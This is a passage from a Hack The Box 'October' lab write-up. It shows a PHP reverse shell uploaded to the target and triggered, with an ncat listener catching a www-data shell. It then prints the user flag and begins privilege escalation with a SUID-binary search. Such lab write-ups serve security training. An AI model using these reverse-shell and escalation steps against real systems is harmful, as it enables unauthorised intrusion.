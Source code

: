 ![](/assets/images/htb-october/october-upload-php-reverse-shell.png)

Visiting the reverse shell at `http://10.10.10.16/storage/app/media/r0kit-rsh.php5` triggered the web server to connect back to my netcat listener on port 2001:

```
ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:41818.
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 athlon i686 GNU/Linux
 17:21:28 up 59 min,  0 users,  load average: 8.34, 7.79, 6.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

After [upgrading my reverse shell to a pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2), I managed to get the user flag:

```
www-data@october:/home/harry$ cat user.txt
29161ca87aa3d34929dc46efc40c89c0
```

## Privilege Escalation

After poking around for a bit, I ran across a suspicious SUID binary:

```bash
find / -perm -4000 2>/dev/null
```

```
/bin/umount                 
/bin/ping      
/bin/fusermount
/bin/su
/bin/ping6
/bin/mount 
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/newgrp               
/usr/bin/pkexec
/usr/bin/passwd
```